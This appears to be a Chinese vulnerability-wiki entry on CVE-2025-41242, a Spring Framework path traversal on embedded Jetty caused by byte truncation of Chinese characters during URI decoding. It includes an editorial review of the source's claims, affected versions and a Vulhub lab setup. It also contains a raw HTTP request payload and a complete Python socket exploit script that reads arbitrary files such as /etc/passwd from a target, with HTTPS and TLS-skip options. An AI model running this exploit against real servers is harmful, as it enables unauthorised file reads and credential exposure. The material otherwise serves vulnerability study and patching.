


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：四Spring分支及修复明确，元数据仅6.2；Boot3.2.4+Jetty12组合，原始Unicode与至少一个%编码字节条件解释详细

代码与实验材料：完整HTTP/HTTPS socket脚本，保留原始字节；只分头身不解chunked、忽略target路径前缀/IPv6Host括号，无响应成功判据

来源证据范围：BlackHat原研究、GHSA、固定Vulhub commit和Spring修复commit/博客，较强

- **适用与权限边界（1）**：特定链限制被写成CVE完整范围；依据：正文把仅内嵌Jetty才触发作为总定义，需核官方对容器拒绝可疑URI配置等适用范围。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **事实待核（2）**：工具行为断言过绝对；依据：称curl/Burp均无法原样发送，应限定具体版本/模式而非所有工具能力。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **结论使用边界（3）**：输出纯文件正文声明不总成立；依据：脚本仅partitionHTTP头，chunked传输会保留块框架；HTTPS前置代理也可能规范化路径。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Spring 框架因 Jetty URI 解析不一致导致的路径穿越漏洞 CVE-2025-41242

## 漏洞描述

Spring 框架是 Java 生态中应用最广泛的应用框架之一，Jetty 是 Spring Boot 应用常用的内嵌 HTTP 服务器。CVE-2025-41242 是一个由 Spring 框架与 Jetty 之间**URI 解码不一致**所导致的路径穿越漏洞。

漏洞根源是 Spring 的 `StringUtils.uriDecode` 中的 "Ghost Bits" 缺陷：解码器遇到非 `%xy` 字符时，会直接调用 `ByteArrayOutputStream.write(int)`，而该方法只保留 16 位 Java`char` 的**低 8 位**。结果就是某些中文字符在解码过程中被悄悄 " 炼 " 成 ASCII 字节，例如 `阮(U+962E)→0x2E='.'`、`严(U+4E25)→0x25='%'`、`灵(U+7075)→0x75='u'`、`丰(U+4E30)→0x30='0'`、`甲(U+7532)→0x32='2'`、`来(U+6765)→0x65='e'`，于是攻击者构造的字符串 `阮严灵丰丰甲来` 被静默地转换成 ASCII 字符串 `.%u002e`。这串结果在 Spring 的 `isInvalidPath`/`isInvalidEncodedPath` 检查中既不含字面量 `../`，标准的 `URLDecoder` 又不识别非标准的 `%uXXXX` 编码，所有安全检查全部放行。但路径随后通过 `ServletContextResource` 交给底层 Jetty 的 `PathResource#resolve` 时，Jetty 在 `URIUtil.encodePathSafeEncoding` 中却主动把 `%u002e` 当作 Unicode 解码为 `.`，使 `/.%u002e/` 在文件系统层面变成 `/../`，从而完成跨目录读取，最终读取 `/etc/passwd` 等任意文件。一句话：Spring 看到的是 " 无害的中文/Unicode"，Jetty 解释的却是 " 致命的 `../`"。官方修复方式是改用 `StringBuilder` 逐字符 `append`，从根源上消除高位丢失。

根据上游安全公告 [GHSA-r936-gwx5-v52f](https://github.com/advisories/GHSA-r936-gwx5-v52f)，`spring-webmvc` 的受影响版本范围为 `5.3.0` 至 `5.3.43`、`6.0.0` 至 `6.0.29`、`6.1.0` 至 `6.1.21`、`6.2.0` 至 `6.2.9`（修复版本为 `5.3.44`、`6.0.30`、`6.1.22`、`6.2.10`），且应用部署在内嵌 Jetty 之上时触发。需要注意的是，将 `%u002e` 解码为 `%2e` 的 `URIUtil.encodePathSafeEncoding` 方法仅在 `jetty-util >= 12.0` 中提供，而 `spring-boot-starter-parent` 从 `3.2.0` 起才默认引入 Jetty 12，因此更早的 Spring Boot 组合（例如 3.1.x + Jetty 11）即便 Spring 端在受影响范围内也无法触发该漏洞链。本环境基于 Spring Boot 3.2.4+ 默认 `spring-boot-starter-jetty` 演示该漏洞。

参考链接：

- https://i.blackhat.com/Asia-26/Presentations/Asia-26-Bai-Cast-Attack-Ghost-Bits-4.23.pdf
- https://github.com/advisories/GHSA-r936-gwx5-v52f
- https://github.com/spring-projects/spring-framework/commit/24e66b63

## 漏洞影响

```
org.springframework:spring-webmvc >= 6.2.0, < 6.2.10
org.springframework:spring-webmvc >= 6.1.0, <= 6.1.21
org.springframework:spring-webmvc >= 6.0.0, <= 6.0.29
org.springframework:spring-webmvc >= 5.3.0, <= 5.3.43
```

## 环境搭建

Vulhub 执行如下命令启动一个 Spring Boot 3.2.4 + 内嵌 Jetty 环境：

```
docker compose up -d
```

等待数秒待服务启动完成，然后访问 `http://your-ip:8080/` 即可看到一个 "Hello World" 页面。




## 漏洞复现

要触发这个漏洞，请求必须以 `阮严灵丰丰甲来` 的原始 UTF-8 字节直送服务端，不能预先做 percent-encoding。这是因为 Ghost Bits 仅在 Spring 的 `StringUtils.uriDecode` 处理一段已经包含 16 位 `char` 的字符串时才会发生——如果中文字符在传输前被编码成 `%E9%98%AE` 这样的 ASCII 三元组，解码器走的是另一条不含截断逻辑的路径，漏洞无法触发。还有第二个细节：目标文件名中至少要有一个字符做 percent-encoding（例如把 `passwd` 写成 `passw%64`），否则 Spring 的路径匹配会提前短路，根本不会调用到那段有问题的解码逻辑。

这意味着浏览器、`curl`、Burp Suite 以及绝大多数代理工具都**无法**直接用来复现该漏洞——它们在发送请求前会对 URL 路径做规范化处理，把高位 Unicode 字符自动编码为 ASCII（变成 `%E9%98%AE...` 或 `.%u002e`），从而破坏漏洞触发条件。要复现，必须使用允许逐字节构造并发送原始 HTTP 请求的工具。

**方式一：Python socket 脚本。** 仓库目录下提供了 [`poc.py`](https://github.com/vulhub/vulhub/blob/d277a8693e588684e951dddb0733809e53881a3c/spring/CVE-2025-41242/poc.py)，它会将 `阮严灵丰丰甲来` 的原始 UTF-8 字节直接写入 socket（绕过浏览器、`curl` 等会做的 URL 规范化），并自动对目标文件名最后一个字节做 percent-encoding。脚本同时支持 `http` 与 `https` 目标——TLS 握手会被透明地包裹在 socket 之上，所以面对前置 HTTPS 的 Jetty 服务器同样可用。

读取靶机环境中的 `/etc/passwd`：

```
python poc.py http://your-ip:8080
```

通过 `-f` 指定其他文件：

```
python poc.py http://your-ip:8080 -f /etc/hosts
```

如果目标是使用自签证书的 HTTPS 服务，可以加 `-k` 跳过 TLS 校验：

```
python poc.py https://your-ip:8443 -f /etc/passwd -k
```

脚本会把响应头写到 stderr，把文件正文写到 stdout，因此可以直接重定向：`python3 poc.py http://your-ip:8080 -f /etc/passwd > passwd.txt`。在 Vulhub 环境上运行即可看到 `/etc/passwd` 内容：


**方式二：Yakit 原始数据包。** Yakit 的 HTTP Fuzzer 会原样发送请求行，不会对高位字符做规范化。在请求面板中粘贴如下数据包并发送：

```
GET /阮严灵丰丰甲来/阮严灵丰丰甲来/阮严灵丰丰甲来/阮严灵丰丰甲来/阮严灵丰丰甲来/阮严灵丰丰甲来/阮严灵丰丰甲来/etc/passw%64 HTTP/1.1
Host: your-ip:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/148.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
```




## 漏洞 POC

```
#!/usr/bin/env python3
"""
PoC for CVE-2025-41242: Spring Framework path traversal via Jetty URI
parsing inconsistency on embedded Jetty.
"""
from __future__ import annotations

import argparse
import socket
import ssl
import sys
from urllib.parse import urlparse

GHOST_BITS_SEG = '阮严灵丰丰甲来'.encode('utf-8')
DEFAULT_PORTS = {'http': 80, 'https': 443}


def encode_target_path(file_path: str) -> bytes:
    """Strip the leading slash and percent-encode the last character.

    Spring's path matcher short-circuits when no character is percent-encoded,
    so at least one byte of the target filename must be encoded for the buggy
    decoder to fire (e.g. 'passwd' -> 'passw%64').
    """
    path = file_path.lstrip('/')
    if not path:
        raise ValueError('file path must not be empty')
    last = path[-1]
    if not last.isascii():
        raise ValueError('last character of the file path must be ASCII')
    return path[:-1].encode('utf-8') + ('%%%02x' % ord(last)).encode()


def parse_target(url: str) -> tuple[str, str, int]:
    if '://' not in url:
        url = 'http://' + url
    parsed = urlparse(url)
    if parsed.scheme not in DEFAULT_PORTS:
        raise ValueError(
            f'only http/https are supported (got {parsed.scheme!r})'
        )
    if not parsed.hostname:
        raise ValueError(f'cannot parse host from {url!r}')
    port = parsed.port or DEFAULT_PORTS[parsed.scheme]
    return parsed.scheme, parsed.hostname, port


def build_request(host: str, port: int, file_path: str) -> bytes:
    encoded_target = encode_target_path(file_path)
    path = b'/' + (GHOST_BITS_SEG + b'/') * 7 + encoded_target
    host_header = f'{host}:{port}'.encode()
    return (
        b'GET ' + path + b' HTTP/1.1\r\n'
        b'Host: ' + host_header + b'\r\n'
        b'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36' + b'\r\n'
        b'Connection: close\r\n\r\n'
    )


def send(
    scheme: str,
    host: str,
    port: int,
    request: bytes,
    timeout: float,
    insecure: bool,
) -> bytes:
    sock = socket.create_connection((host, port), timeout=timeout)
    if scheme == 'https':
        ctx = ssl.create_default_context()
        if insecure:
            ctx.check_hostname = False
            ctx.verify_mode = ssl.CERT_NONE
        sock = ctx.wrap_socket(sock, server_hostname=host)
    with sock:
        sock.sendall(request)
        chunks = []
        while True:
            chunk = sock.recv(4096)
            if not chunk:
                break
            chunks.append(chunk)
    return b''.join(chunks)


def main() -> int:
    parser = argparse.ArgumentParser(
        description=(
            'PoC for CVE-2025-41242: Spring Framework path traversal on '
            'embedded Jetty. Reads an arbitrary file from the target server.'
        ),
        epilog='example: python poc.py http://192.168.1.160:8080 -f /etc/passwd',
    )
    parser.add_argument(
        'target',
        help='target URL or host:port, e.g. http://192.168.1.160:8080',
    )
    parser.add_argument(
        '-f', '--file',
        default='/etc/passwd',
        help='absolute path of the file to read (default: /etc/passwd)',
    )
    parser.add_argument(
        '--timeout', type=float, default=10.0,
        help='socket timeout in seconds (default: 10)',
    )
    parser.add_argument(
        '-k', '--insecure', action='store_true',
        help='skip TLS certificate verification when using https',
    )
    args = parser.parse_args()

    try:
        scheme, host, port = parse_target(args.target)
        request = build_request(host, port, args.file)
    except ValueError as e:
        print(f'error: {e}', file=sys.stderr)
        return 2

    try:
        data = send(
            scheme, host, port, request,
            timeout=args.timeout, insecure=args.insecure,
        )
    except OSError as e:
        print(
            f'error: connection to {scheme}://{host}:{port} failed: {e}',
            file=sys.stderr,
        )
        return 1

    # Send response headers to stderr and the body to stdout, so the body can
    # be redirected cleanly: `python poc.py <target> -f /etc/passwd > out`.
    header, sep, body = data.partition(b'\r\n\r\n')
    sys.stderr.buffer.write(header + sep)
    sys.stderr.flush()
    sys.stdout.buffer.write(body)
    return 0


if __name__ == '__main__':
    raise SystemExit(main())
```

## 漏洞修复

- 升级至 [Spring Framework 6.2.10 ](https://spring.io/blog/2025/08/14/spring-framework-6-2-10-release-fixes-cve-2025-41242) 及以上版本。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
